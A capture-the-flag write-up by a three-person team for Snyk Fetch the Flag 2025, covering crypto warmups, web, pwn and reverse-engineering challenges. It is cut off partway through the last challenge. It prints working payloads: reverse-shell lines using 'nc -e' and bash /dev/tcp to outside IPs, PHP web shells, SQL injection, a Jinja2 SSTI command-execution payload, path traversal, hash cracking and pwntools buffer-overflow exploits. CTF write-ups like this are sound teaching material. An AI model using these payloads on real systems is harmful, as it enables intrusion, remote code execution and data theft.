


# # Snyk Fetch the Flag 2025

### Into to Our Team:

1. Jeel (`B14cky`) : https://b14cky.vercel.app/
    - Skill Area : Forensics, Cryptography, Pwn, Reverse Engineering
2. Parth (`M0n4rch`) : https://parth-m0n4rch.vercel.app/
    - Skill Area : Web, OSINT, Coding, Steganography
3. Yash (`k3t0n`) : 
    - Skill Area : Web, OSINT, Cryptography, Coding, Reverse Engineering, Steganography

## Warmups

### 1. Zero Ex Six One


- Given File: flag.txt.encry

[flag.txt.encry](data/flag.txt.encry)

- Hex Data

```mathematica
07 0d 00 06 1a 02 54 51 05 59 53 02 51 00 53 54 07 52 04 
57 55 55 05 51 56 51 53 03 55 50 05 03 05 51 59 54 00 1c 6b
```

- As per challenge description we can understand it says something like `0x61` and it is a XOR challenge so i try to XOR Hex data with this using (https://www.dcode.fr/xor-cipher) Site and boom got the flag.


  

```
flag{c50d82c0a25f3e644d0702b41dbd085a}
```

### **2. Read The Rules**


- In this challenge, a link labeled **"Read The Rules"** was provided. Clicking on it redirected me to a page containing the competition rules.


- To find any hidden information, I inspected the **source code** of the page and searched for `"flag{"`. This revealed the hidden flag within the code.


```

flag{90bc54705794a62015369fd8e86e557b}
```

### 3. Technical Support


- The given link redirected to a **Discord page**, which contained an invite link to the **Snyk Discord server** (DevSecCon - Your DevSecOps Community).



- Following the hint from the previous text, I navigated to the `#open-help-ticket` channel, where the flag was located.


```
flag{d7aa66eaOedd20221820c84ecc47aee9}
```

### 4. CTF 101


- Given File: challenge.zip

[CTF101.zip](data/CTF101.zip)

- By analyzing the `source code`, I discovered that the application was vulnerable to **`command injection`**.


- To exploit this, I attempted a basic command to read the flag file:

```bash
; cat flag.txt 
```


- This successfully displayed the flag.

```bash
flag{3b74fc0628299870edabc5072b25cf78}
```

### 5. Science 100


- We are given a netcat (nc) connection and must interact with a system that resembles the hacking mechanic from `*Fallout: New Vegas*`. In the game, terminals use a "likeness" system, where each incorrect attempt provides a count of how many letters are correctly positioned. Our goal is to find the correct password using this mechanic.

```bash
nc challenge.ctf.games 32586
```


- Fallout terminals use a `likeness` system where each attempt tells you how many letters are in the correct position. so i guess `MOUNTAIN`
- and i get a likeness of 0 out of 8 , the correct password has exactly  matching letters in the same spots. so the correct password is does not contain any letter from here so my next Logic Guess
was one From this
- `PRODUCER (Does not contain I, A, N in same positions)`
- `AUTONOMY (Does not contain I, A, N in same positions)`
- And when Tried PRODUCER i got the access and then we got to select 2 option for Flag


```
flag{89e575e7272b07a1d33e41e3647b3826}
```

### **6. Screaming Crying Throwing up**


[screaming.bin](data/screaming.bin)

```bash
a̮ăaa̋{áa̲aȧa̮ȧaa̮áa̲a̧ȧȧa̮ȧaa̲a̧aa̮ȧa̲aáa̮a̲aa̲a̮aaa̧}
```

- By Opening the file we got this text which is looks like flag but it is encrypted.
- After some research i found that this is `Stream Cipher` ( https://www.explainxkcd.com/wiki/index.php/3054:_Scream_Cipher ).
- From this site i got this `mapping table` of `each cipher character mapped to its corresponding plain text character`.


- So I try to find some decoder to decode this and got this one https://scream-cipher.netlify.app/ after lots of searching.
- I paste the cipher and boom got the flag.. 🫠


```bash
flag{edabfbafedcbbfbadcafbdaefdadfaac}
```

## Web

### 1. Who is JH


- Given Files: Source code of the web app.

[challenge.zip](data/challenge.zip)

- Explored the webapp, different pages. Found a `file upload functionality` at **`/upload.php`**


- Exploring `/conspiracy.php`
    - `/conspiracy.php?language=languages/english.php`
    - `/conspiracy.php?language=languages/french.php`
- Randomly tried removing php files and we got php error. It indicated possible LFI vulnerability


- The `language` parameter in the URL is being passed to `include()`, which attempts to load a file. Since PHP is throwing a warning, it means the file does not exist or isn't accessible.
- Tried other possible ways to get it list directories or access files but no luck.


- Now lets try to upload php files. However, only allowed extensions are `.jpg`, `.png` and `.gif``
- Tried diff. php extension (`php, php3, php4, php5, phtml, phps, phar, jpg.php` etc.) to bypass it but only image extension at the end works.
- So tried `.php.jpg` extension and `file uploaded`.


- Now to execute the file we need to find the location of the file uploaded.
- There is a `/asset` directory but it contains static images, so `not useful`.
- Randomly guessed `/uploads` directory but it gives `403 forbidden` error. We can also check the source code of the web app which is already given. So we are sure that our uploaded file is stored in /upload directory.
- Tried directly accessing the file `/upload/first.php.jpg` - it says file not found.
- Again checked the source code and found that the `file name is being changed using uniqid() function` when we upload the file.


- Since the code renames files as `uniqid() . "_$originalName"`, the final filename is unpredictable.
- `uniqid()` generates a **random** unique ID. So we cannot brute force the file name. Our file name will be like 65dfe1b12345_first.php.jpg
- In the given files, we have `log.php` file which which shows `/logs/site_log.txt` file where all the site logs are being stored


- Checked the identified log file. Logs `exposes the changed file name` of our uploaded file.


- Now we know the filename -- tried accessing our file directly but its not executing the php code. It means we have to exploit the `LIF vulnerability` which we found earlier to move further.
- I tried directly accessing our uploaded file like in below image and we are able to do it -- no error


- To double check -- uploaded php file with below code and its working fine

```php
<?php phpinfo(); ?>
```


- Now lets go for `reverse shell`. I tried `pentest monkey's php rev shell` but its not working. Also tried direct rev shell with the below code but it is also not working

```php
<?php system("nc -e /bin/sh 172.21.42.246 4444"); ?>
```

- I noticed in phpinfo that some important functions are disabled, so we might not be able to take reverse shell.


- Need to find another way.. searched on google for alternative ways to get reverseshell and found something related to webshell. I used chatgpt to know more about it and get the php code for it.
- If all command execution functions are blocked, we **inject a web shell** that uses **PHP functions only**, like this:

```php
<?php if(isset($_REQUEST['cmd'])) { echo "<pre>"; print_r(scandir($_REQUEST['cmd'])); echo "</pre>"; } ?>

```

- Uploaded the file with above code and executed it like below and got the directories listed


- Now we can check where flag.txt is present.


- flag.txt is present in / directory. Now again I used chatgpt to get the code for displaying the content of flag.txt

```php
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    echo file_get_contents($_REQUEST['cmd']);
    echo "</pre>";
}
?>
```

- Upload this code file and execute it. We will get the flag


```
flag{65586Ø8db04Ød1c64358ad536a8eØ6c6)
```

### 2. Unfurl


- Given File: challenge.zip

[unfurl.zip](data/unfurl.zip)

- When I first saw the `Open Source Link Unfurler` challenge, it seemed like a simple web application that fetches metadata from URLs. However, after diving into the code, I discovered a complex vulnerability chain involving `SSRF (Server-Side Request Forgery)` and `command injectio` that eventually led to capturing the flag.

- Challenge Overview

- The application consists of:
    - A public-facing web app allowing users to enter URLs and view their metadata
    - A hidden admin panel running on a random port
    - A vulnerable command execution feature in the admin panel

I began by examining the source code provided in the challenge. The application was built with Express.js and had these main components:

- `app.js`: The main public application running on port 5000


- `admin.js`: A separate admin panel running on a random port between 1024-4999


- Various route handlers for both apps

After analyzing the code, I identified two key vulnerabilities:

1. **Server-Side Request Forgery (SSRF)** in the `/unfurl` endpoint:

```python
// No validation on the URL parameter
router.post('/unfurl', async (req, res) => {
const { url } = req.body;
// ...
const response = await axios.get(url);
// ...
});
```

1. **Command Injection** in the admin panel's `/execute` endpoint:

```python
router.get('/execute', (req, res) => {
// Weak IP check
if (clientIp !== '127.0.0.1' && clientIp !== '::1') {
return res.status(403).send('Forbidden');
}
const cmd = req.query.cmd;
// Direct execution without sanitization
exec(cmd, (error, stdout, stderr) => {
// ...
});
});
```

- And also by using Snyk it was confirm that this application has this vulnerability.


- My strategy became clear:
    1. Use the SSRF vulnerability to scan for the admin port
    2. Access the admin panel through the SSRF vulnerability
    3. Exploit the command injection to read the flag file

- Finding the Admin Port
    - I wrote a Python script to systematically scan for the admin port:
    

```python
import requests
import concurrent.futures

def check_port(port, base_url="http://challenge.ctf.games:30959"):
    try:
        unfurl_endpoint = f"{base_url}/unfurl"
        target_url = f"http://127.0.0.1:{port}"

        response = requests.post(
            unfurl_endpoint,
            json={"url": target_url},
            timeout=5
        )

        if response.status_code == 200:
            data = response.json()
            if "Admin Panel" in data.get("title", "") or "Admin Panel" in data.get("html", ""):
                print(f"✅ FOUND ADMIN PORT: {port}")
                return port
    except Exception as e:
        pass
    return None

def find_admin_port(start_port=1024, end_port=4999, threads=10):
    print(f"Starting scan for admin port...")

    with concurrent.futures.ThreadPoolExecutor(max_workers=threads) as executor:
        futures = {executor.submit(check_port, port): port for port in range(start_port, end_port + 1)}

        for i, future in enumerate(concurrent.futures.as_completed(futures)):
            result = future.result()
            if result is not None:
                return result

    return None

admin_port = find_admin_port()
```


- After running the script, I found the admin panel running on port 1174.(Claude assisted me in developing this charming code that helps me discover the admin port.)


- When I first tried to access the execute endpoint at `/admin/execute`, I consistently got 404 errors.

- I also attempted sophisticated command injection payloads like reverse shells before confirming basic command execution worked:

```php
/admin/execute?cmd=bash%20-c%20%27bash%20-i%20%3E&%20/dev/tcp/192.168.29.54/4444%200%3E&1%27

```

- I spent time trying to determine if the unfurler was making proper HTTP requests or if there were additional protections in place.
- In the above image it showed that requests to the root path (`/`) were working, but `/admin/execute` was failing. This was my "aha" moment - the admin routes were mounted at the root level, not under `/admin/`!
- I then tried:

```
http://127.0.0.1:2901/execute?cmd=ls
```


- And got a successful response showing the directory contents!


- With the correct path to the command execution endpoint, getting the flag was simple:

```
http://127.0.0.1:2901/execute?cmd=cat flag.txt
```

- When I submitted this URL to the unfurler, it retrieved the flag file content and displayed it in the results section.

```
flag{e1c96ccca8777b15bd0b0c7795d018ed}
```

### 3. TimeOff


- Given File: Challenge.zip

[timeoff.zip](data/timeoff.zip)

- This was a challenging and fun web exploitation challenge involving a Ruby on Rails time-off management application. The goal was to find and exploit a vulnerability to retrieve a flag hidden somewhere in the system. The challenge required careful code analysis and exploiting a path traversal vulnerability.

- Upon examining the provided source code, I found several controller files that handle different aspects of the application:
- Upon examining the provided source code, I found several controller files that handle different aspects of the application:

- `application_controller.rb`: Handles authentication
- `document_controller.rb`: Manages document downloads
- `file_controller.rb`: Provides file access functionality
- `time_off_requests_controller.rb`: Manages time-off requests and their documents
- `user_controller.rb`: Handles user management

- The included Dockerfile revealed a crucial piece of information:

```docker
COPY flag.txt /timeoff_app/flag.txt
```

- This confirmed the flag was located at `/timeoff_app/flag.txt` in the container.

- **FilesController.rb**

- Initially, the `FilesController` appeared to be a goldmine. It contained a glaring path traversal vulnerability:

```ruby
class FilesController < ApplicationController
  def show
    path = params[:path]

    begin
      content = File.read(path)
      render plain: content
    rescue => e
      render plain: "Error reading file: #{e}"
    end
  end
end
```

- This controller read files directly from user input without any validation - a perfect opportunity for exploitation. However, after examining the `routes.rb` file, I discovered this controller wasn't actually being used in the application! The route wasn't defined, making this vulnerability inaccessible.

- Further analysis revealed a more subtle vulnerability in the document download functionality. In `document_controller.rb`:

```ruby
def download
  @document = Document.find(params[:id])
  base_directory = Rails.root.join("public", "uploads")
  path_to_file = File.join(base_directory, @document.name)

  if File.exist?(path_to_file)
    send_file path_to_file,
            filename: @document.file_path.presence || "document",
            type: "application/octet-stream"
  else
    flash[:alert] = "File not found: #{path_to_file}"
    redirect_back(fallback_location: root_path)
  end
end
```

- This code uses `@document.name` to construct the file path without proper validation, potentially allowing path traversal.
- The attack path became clear:
- Login to the application


- When trying to download the document, I received an error:

```php
File not found: /timeoff_app/public/uploads/../../../flag.txt
```

- This confirmed I was on the right track! The application was attempting to construct a path to the flag file but couldn't find it at the expected location.

- After several attempts with different traversal patterns (like `../../../../flag.txt`, `../../flag.txt`, etc.), I eventually found the correct path to access the flag.


- In the document upload form, I directly entered `../../../flag.txt` as the stored name
- The application accepted this input without validation.
- From the time-off request details page, I could see the document was created with:

```php
Name: flag.txt
Stored Name: ../../../flag.txt
```

- I clicked the "Download Document" link which triggered the vulnerable code path


This way i got the Flag


```docker
flag{52948d88ee74b9bdab130c35c88bd406}
```

### 4. Weblog


Given File: Challange.zip

[Weblog.zip](data/Weblog.zip)

- This CTF challenge involved exploiting multiple vulnerabilities in a Flask web application to gain access to the admin panel and ultimately perform command injection to retrieve the flag.

- Vulnerability Discovery
    - After analyzing the provided codebase, I identified several critical vulnerabilities:
        1. SQL Injection in the search functionality
        2. Weak password hashing (MD5)
        3. Command injection in the admin panel
        4. Input restrictions that could be bypassed

- Application Structure
    - The application consisted of multiple components:
    - A search feature vulnerable to SQL injection
    - A user authentication system
    - An admin panel with command execution capabilities
    - Two database tables: `blog_posts` and `users`

- My first approach was to use the credentials found in `entrypoint.py`. This initially seemed promising as I was able to log in to the admin portal in the Docker simulation environment. I even managed to exploit command injection and retrieve what appeared to be the flag.


- However, when I tried the same credentials on the actual challenge environment, they didn't work!

- This was a classic CTF misdirection – a rabbit hole designed to waste time. This forced me to reconsider my approach and look deeper into the application code.

- So First i Register a user and login using those credentials


- While analyzing the `search` functionality, I discovered a SQL Injection vulnerability in the following code snippet:

```python
raw_query = text(
                f"SELECT * FROM blog_posts WHERE title LIKE '%{query}%'")
            current_app.logger.info(f"Executing Raw Query: {raw_query}")
            posts = db.session.execute(raw_query).fetchall()
            current_app.logger.info(f"Query Results: {posts}")
```

- Since user input (`query`) is directly concatenated into the SQL query without proper sanitization, we can exploit this to extract data from the database.

**Bypassing Filters**

- I first attempted a basic SQL injection payload `' OR 1=1; --` and however, this didn't work. After experimenting further, I found that the following payload successfully bypassed the filter and listed all blog posts `' OR 1-1 #`

- Next, I attempted to extract data from the `users` table using a `UNION` injection payload:

```sql
' UNION SELECT id, username, password, 'content', 'author' FROM users WHERE role='admin' #
```

- and we go the admin password in md5 hash.


- I used **Hashcat** to crack the MD5 hash of the admin password.

```bash
hashcat -m 0 c1b8b03c5a1b6d4dcec9a852f85cac59 /usr/share/wordlists/rockyou.txt
```



- Once decrypted, I logged into the admin panel using the obtained credentials. After gaining access, I explored the admin panel and identified a potential command injection vulnerability. This opened the door for further exploitation.


```bash
flag{b06fbe98752ab13d0fb8414fb55940f3}
```

### 5. Plantly


- Given File: Challange.zip

[Plantly.zip](data/Plantly.zip)

- When I first looked at the Plantly e-commerce site, it seemed like your typical plant shop application - user registration, product browsing, and a checkout system. Little did I know that hidden in this garden of code was a dangerous vulnerability just waiting to be exploited. This writeup details my journey through discovering and exploiting a Server-Side Template Injection (SSTI) vulnerability to capture the flag.

- The first step was analyzing the codebase to understand the application structure:
- A Flask application with several blueprints (auth, main, store, subscription)
- User authentication system
- Plant shopping features
- Cart and checkout functionality
- Receipt generation

- While examining the code in `store.py`, something suspicious caught my eye - a potential SSTI vulnerability in the receipt generation function:

```python
custom_requests = "".join(
    f"<li>Custom Request: {render_template_string(purchase.custom_request)}</li>" 
    for purchase in purchases if purchase.custom_request
)
```

- This code directly passes user input (`purchase.custom_request`) to Flask's `render_template_string()` function without any sanitization. This is a classic recipe for disaster, as it allows user-supplied template code to be executed on the server.

- To confirm this vulnerability, I followed these steps:

1. Use Given credentials to sigin on the Plantly website


1. Added a custom plant order to my cart with a simple test payload: `{{7*7}}` 


1. Completed the checkout process


1. Viewed my receipt


- When the receipt loaded, I saw that instead of displaying the literal string `{{7*7}}`, it showed `49`. This confirmed the SSTI vulnerability - the server was evaluating my input as a template expression!

- Now that I had confirmed the vulnerability, it was time to escalate to reading the flag file. I needed to find a way to access the filesystem.
I first tried some common SSTI payloads but encountered obstacles:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[40]('flag.txt').read() }}
```

- This resulted in a server error, likely because the class at index 40 wasn't the file reader class in this environment.

- I then tried to enumerate all subclasses:

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```


- This worked and dumped a large list of Python classes, but it was hard to identify which one would allow file access.


- I modified this code to the class which i wanted and got the flag

```python
{{ c.__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag.txt').read() }}
```


- And voilà! The flag was revealed in the receipt page.

```
flag {982e3b7286ee603d8539f987b65b90d4}
```

## Binary Exploitation

### 1. Echo


- Given File: Echo

[Echo.zip](data/Echo.zip)

- We have given a ELF binary


- Secondly all i check the security of this binary using `checksec`.
    - and luckily there is no protection.


- In Next step i see the functions of this using `pwngdb` tool and there is `Win` function available so we just to do `Ret2Win Attack`.
    - (Reference: https://www.youtube.com/watch?v=eg0gULifHFI)


- I make a simple script for this using `pwntools`,

[pwn1.py](data/pwn1.py)

```python
from pwn import *

# Load the binary
binary = ELF('./echo')

# Connect to remote challenge
p = remote('challenge.ctf.games', 31084)

# Address of win function
win_address = p64(0x401216)

# Buffer overflow offset: 128 bytes for the buffer + 8 bytes for the saved base pointer = 136 bytes
buffer_offset = 136

# Craft the payload
payload = b'A' * buffer_offset + win_address

# Send the payload and interact with the shell
p.sendline(payload)
p.interactive()
```

- Working in short (I would recommend you to see the previously given reference video for in-depth understanding)
    - i opened `ghidra for see the buffer size` and here is the main code,


```python
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_88 [128];
  
  init(param_1);
  puts("Give me some text and I\'ll echo it back to you: ");
  gets(local_88);
  puts(local_88);
  return 0;
}
```

- Buffer size is `128 and 8 byte for base point so total 136 byte of data it can accept` and `after that this will rewrite the pointer address` where we provided the `win func address` so the pointer redirect to that function and execute it
- And When i run this script i got the flag,


```
flag{4f4293237e37d06d733772a087299f17}
```

### 2. Additional Information Needed


- Given File: challenge.elf

[challenge.zip](data/challenge%201.zip)

- The Given file is ELF file and when i check the binary security using `checksec` i founf that there is ony one `RELRO security is implemented partially`.

 


- It contains `getFlag()` so,
- I tried previous script by replacing win function’s address with this and other things but it does not work so i see the ghidra code,


- Here is the getFlag() code,


```python
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 getFlag(int param_1,int param_2)

{
  undefined4 uVar1;
  char local_3c [48];
  FILE *local_c;
  
  if (param_1 * param_2 == 0x23) {
    local_c = fopen("flag.txt","r");
    if (local_c != (FILE *)0x0) {
      fgets(local_3c,0x30,local_c);
      puts(local_3c);
      fclose(local_c);
    }
    uVar1 = 0;
  }
  else {
    puts("Nope!");
    uVar1 = 0xffffffff;
  }
  return uVar1;
}

```

- By looking the code we can say that `this not a straight forward` but we also need `pass the parameters to pass the condition` so make a script for it.

```python
from pwn import *

# Load the binary (32-bit ELF)
binary = ELF('./challenge.elf')

# Connect to remote challenge
p = remote('challenge.ctf.games', 30591)

# Address of getFlag function
getFlag_address = binary.symbols["getFlag"]

# Buffer overflow offset: 36 bytes (buffer) + 4 bytes (saved EBP) = 40 bytes
offset = 40

# Craft the payload:
# [padding] + [getFlag address] + [fake return] + [first arg: 5] + [second arg: 7]
payload = b"A" * offset
payload += p32(getFlag_address)  # Overwrite saved return address with getFlag()
payload += p32(0xdeadbeef)       # Fake return address (won't be used)
payload += p32(5)                # First argument (will be at [ebp+8])
payload += p32(7)                # Second argument (will be at [ebp+12])

# Send the payload and interact
p.sendline(payload)
p.interactive()
```

- We just passing the argument which succeed the condition,
    - `if (param_1 * param_2 == 0x23)` and `7 * 5 = 35 == 0x23`
    - Eventually condition pass and we got the flag.


```
flag{8e9e2e4ec228db4207791eOa534716c3}
```

## Reverse Engineering

### 1. **An Offset Amongst Friends**


- Given File: an-offset

[an-offset.zip](data/an-offset.zip)

- It is a ELF file which kind exe of linux.


- I open this binary in ghidra for analysis and try to analyze the decompiled c code and see the different function.
- I got something interesting in this `FUN_001011c` function.


```c
void FUN_001011c9(long param_1)

{
  long in_FS_OFFSET;
  int local_3c;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined7 local_20;
  undefined uStack_19;
  undefined7 uStack_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0x3536647c68626d67;
  local_30 = 0x3436333935363234;
  local_28 = 0x6237386232326432;
  local_20 = 0x66393339626266;
  uStack_19 = 0x35;
  uStack_18 = 0x7e6438313934;
  for (local_3c = 0; *(char *)((long)&local_38 + (long)local_3c) != '\0'; local_3c = local_3c + 1) {
    *(char *)(param_1 + local_3c) = *(char *)((long)&local_38 + (long)local_3c) + -1;
  }
  *(undefined *)(param_1 + local_3c) = 0;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

- I try to unhex the give hex stored in different variables but it doesn’t make any sense.


- After that i analyze the code by converting it to C code using ChatGPT,

```c
#include <stdio.h>

// This function decodes an encoded string and writes it into the buffer pointed to by 'dest'.
// The encoded string is stored in a contiguous byte array built from the constants in the disassembly.
void FUN_001011c9(char *dest) {
    // The encoded bytes are stored in little-endian order as they would appear in memory.
    // They correspond to the following blocks from the disassembly:
    //
    // local_38 = 0x3536647c68626d67  -> bytes: 0x67, 0x6d, 0x62, 0x68, 0x7c, 0x64, 0x36, 0x35
    // local_30 = 0x3436333935363234  -> bytes: 0x34, 0x32, 0x36, 0x35, 0x39, 0x33, 0x36, 0x34
    // local_28 = 0x6237386232326432  -> bytes: 0x32, 0x64, 0x32, 0x32, 0x62, 0x38, 0x37, 0x62
    // local_20 = 0x66393339626266    -> stored in 7 bytes: 0x66, 0x62, 0x62, 0x39, 0x33, 0x39, 0x66
    // uStack_19 = 0x35             -> 1 byte: 0x35
    // uStack_18 = 0x7e6438313934    -> stored in 7 bytes (with a null terminator at the end): 
    //          little-endian: 0x34, 0x39, 0x31, 0x38, 0x64, 0x7e, 0x00
    unsigned char encoded[] = {
        // local_38 (8 bytes)
        0x67, 0x6d, 0x62, 0x68, 0x7c, 0x64, 0x36, 0x35,
        // local_30 (8 bytes)
        0x34, 0x32, 0x36, 0x35, 0x39, 0x33, 0x36, 0x34,
        // local_28 (8 bytes)
        0x32, 0x64, 0x32, 0x32, 0x62, 0x38, 0x37, 0x62,
        // local_20 (7 bytes)
        0x66, 0x62, 0x62, 0x39, 0x33, 0x39, 0x66,
        // uStack_19 (1 byte)
        0x35,
        // uStack_18 (7 bytes)
        0x34, 0x39, 0x31, 0x38, 0x64, 0x7e, 0x00
    };

    int i = 0;
    // Loop until a null byte is found in the encoded data.
    while (encoded[i] != 0) {
        // Subtract 1 from each byte to decode it.
        dest[i] = encoded[i] - 1;
        i++;
    }
    // Append a null terminator.
    dest[i] = '\0';
}

int main(void) {
    // Allocate a buffer large enough to hold the decoded string.
    char decoded[50];
    
    FUN_001011c9(decoded);
    printf("Decoded string: %s\n", decoded);
    
    return 0;
}

```

- This code is just converting the `little-endian hex to big-endian` notation. and also `subtracting 1 from each byte and combining it as ASCII`.

```mathematica
                 ((LE to BE) - 1)
				        
35 36 64 7c 68 62 6d 67 	==> 	66 6c 61 67 7b 63 35 34
34 36 33 39 35 36 32 34 	==> 	33 31 35 34 38 32 35 33
62 37 38 62 32 32 64 32 	==> 	31 63 31 31 61 37 36 61
66 39 33 39 62 62 66 		  ==> 	65 61 61 38 32 38 65
35 							           ==> 	34
7e 64 38 31 39 34 			  ==> 	33 38 30 37 63 7d
```

```mathematica
66 6c 61 67 7b 63 35 34 33 31 35 34 38 32 35 33 31 63 31 
31 61 37 36 61 65 61 61 38 32 38 65 34 33 38 30 37 63 7d
```

- After unhex it i got the flag,


```
flag{c54315482531c11a76aeaa828e43807c}
```

### 2. A Powerful Shell


- Given File: challenge.psl

[challenge.ps1](data/challenge.ps1)

- After opening this in editor i found that there is `long base64 encoded string`.
- So i tries to decode it.

```powershell
# Check if being debugged
if ($PSDebugContext) {
    Write-Output "No debugging allowed!"
    exit
}

# Embedded and encoded layer 2
$encoded = "JGRlY29kZWQgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQm
FzZTY0U3RyaW5nKCdabXhoWjNzME5XUXlNMk14WmpZM09EbGlZV1JqTVRJ
ek5EVTJOemc1TURFeU16UTFObjA9JykNCiRmbGFnID0gW1N5c3RlbS5UZX
h0LkVuY29kaW5nXTo6VVRGOC5HZXRTdHJpbmcoJGRlY29kZWQpDQoNCiMg
T25seSBzaG93IGZsYWcgaWYgc3BlY2lmaWMgZW52aXJvbm1lbnQgdmFyaW
FibGUgaXMgc2V0DQppZiAoJGVudjpNQUdJQ19LRVkgLWVxICdTdXAzclMz
Y3IzdCEnKSB7DQogICAgV3JpdGUtT3V0cHV0ICRmbGFnDQp9IGVsc2Ugew
0KICAgIFdyaXRlLU91dHB1dCAiTmljZSB0cnkhIEJ1dCB5b3UgbmVlZCB0
aGUgbWFnaWMga2V5ISINCn0="
$bytes = [Convert]::FromBase64String($encoded)
$decodedScript = [System.Text.Encoding]::UTF8.GetString($bytes)

# Execute with specific arguments
$argumentList = "-NoProfile", "-NonInteractive", "-Command", $decodedScript

# Start new PowerShell process
$startInfo = New-Object System.Diagnostics.ProcessStartInfo
$startInfo.FileName = "powershell.exe"
$startInfo.Arguments = $argumentList -join ' '
$startInfo.RedirectStandardOutput = $true
$startInfo.RedirectStandardError = $true
$startInfo.UseShellExecute = $false
$startInfo.CreateNoWindow = $true

$process = New-Object System.Diagnostics.Process
$process.StartInfo = $startInfo
$process.Start() | Out-Null
$output = $process.StandardOutput.ReadToEnd()
$process.WaitForExit()

Write-Output $output
}
```

- After Decoding this Base64 i got another code,


```powershell
$decoded = [System.Convert]::FromBase64String('ZmxhZ3s0NWQyM2MxZjY3ODliY
WRjMTIzNDU2Nzg5MDEyMzQ1Nn0=')
$flag = [System.Text.Encoding]::UTF8.GetString($decoded)

# Only show flag if specific environment variable is set
if ($env:MAGIC_KEY -eq 'Sup3rS3cr3t!') {
    Write-Output $flag
} else {
    Write-Output "Nice try! But you need the magic key!"
}
```

- This code also contains another base64 string i try to decode that also and got the flag.


```
flag{45d23c1f6789badc1234567890123456}
```

### 3. String Me Along


- Given File: string-me-along

[string-me-along.zip](data/string-me-along.zip)

- As per challenge description i got a hint that using `string` command maybe something gonna reveal.


- Although the flag is visible but there are some extra characters which seems not part of it so i tried first enter the highlighted password (`unlock_me_123`) after running the binary and got the flag.


 

```
 flag{850de1a29ab50b6e5ad958334b68d5bf}
```

### 4. Math For Me


- Given File: math4me

[math4me](data/math4me.txt)

- First check the type of file and how its working. Its an ELF (Executable and Linked format) file. So when executed it, it asks for an special number, which I think we need to find to get the flag.


- Checked strings of the file using command: `strings math4me`.
- From your `strings` output, we found:
    - `"Congratulations! Here's your flag: %s"` → Suggests the flag is revealed upon correct input.
    - `compute_flag_char` and `check_number` → key functions that might validate the number.
- I used this command `objdump -d math4me | less` to disassemble the binary. Below is the disassembled check_number function.


- Now with the help of chatgpt, analysed the function and got the secret number

- **Understanding the Function**
1. **Input Handling:**
    - The function takes an integer input in `edi` and stores it in `rbp - 0x14`.
    - The value is then moved around different registers.
2. Computation:

```nasm
13d7:  c1 e0 02   shl    $0x2,%eax   # Multiply input by 4
13da:  01 d0      add    %edx,%eax   # Add original input (result = 5 * input)
13dc:  83 c0 04   add    $0x4,%eax   # Add 4 (result = 5 * input + 4)

> This means: result=5 × input + 4
```

1. Division and Rounding:

```nasm
13e7:  c1 ea 1f   shr    $0x1f,%edx   # Handles negative input adjustment
13ec:  d1 f8      sar    $1,%eax      # Divide by 2 (Arithmetic Shift Right)

> This means: final result = (5 × input + 4) / 2
```

1. Final Checks

```nasm
